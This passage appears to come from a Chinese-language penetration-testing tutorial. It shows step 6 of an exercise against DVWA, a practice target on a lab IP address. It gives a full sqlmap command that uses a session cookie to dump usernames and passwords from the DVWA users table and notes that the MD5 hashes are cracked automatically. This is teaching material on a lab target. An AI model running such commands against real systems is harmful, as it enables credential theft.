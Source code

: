    ![img](../../img/15617970950113.jpg)

   图 5-21

   

6. 使用 `SQLMap` 命令 `sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users -C user,password --dump`，可以自动探测出用户名和密码内容，并自动 `MD5` 解密，如图 5-22。中途需要手动输入 `Y` 进行确认

   
